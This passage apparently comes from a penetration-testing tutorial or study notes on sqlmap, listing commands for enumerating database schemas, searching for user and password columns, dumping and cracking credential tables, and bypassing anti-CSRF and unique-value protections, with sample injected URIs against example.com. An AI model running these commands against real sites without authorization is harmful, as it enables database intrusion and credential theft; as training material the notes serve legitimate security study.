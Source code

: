 If we wanted to retrieve the structure of all of the tables so that we can have a complete overview of the database architecture (`--schema`):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --schema
```

## Searching for Data 

When dealing with complex database structures with numerous tables and columns, we can search for databases, tables, and columns of interest (`--search`). It is similar to the SQL operator **LIKE**:
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --search -T user 
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

## Password Enumeration and Cracking 

Once we identify a table containing passwords we can retrieve that table with the `-T` option:
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

Automatically it will crack the hashes.

## DB Users Password Enumeration and Cracking 

Apart from user credentials found in DB tables, we can also attempt to dump the content of system tables containing database-specific credentials (`--passwords`):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

> The `-all` flag with `--batch` will automatically do all the enumeration process.
{: .prompt-tip}

---

# Bypassing Web Application Protections 

## Anti-CSRF Token Bypass 

To bypass a CSRF token we can use the flag `--csrf-token`:
```console
zero@pio$ sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

## Unique Value Bypass 

In some cases, the web application may only require unique values to be provided inside predefined parameters. Such a mechanism is similar to the anti-CSRF technique described above, except that there is no need to parse the web page content. We can use the flag `--randomize`:
```console
zero@pio$ qlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```
